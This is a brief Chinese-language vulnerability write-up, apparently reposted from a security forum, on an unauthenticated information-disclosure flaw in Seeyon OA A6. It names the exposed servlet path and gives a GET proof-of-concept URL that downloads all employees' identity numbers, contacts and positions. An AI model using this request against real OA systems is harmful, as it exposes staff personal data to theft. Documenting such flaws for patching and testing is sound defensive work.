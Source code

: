 # 致远OA A6 敏感信息泄露（二）

> 原文：[https://www.zhihuifly.com/t/topic/3351](https://www.zhihuifly.com/t/topic/3351)

# 致远OA A6 敏感信息泄露（二）

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet 
```

##### 漏洞详情:

```
版本:A6只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0 
```
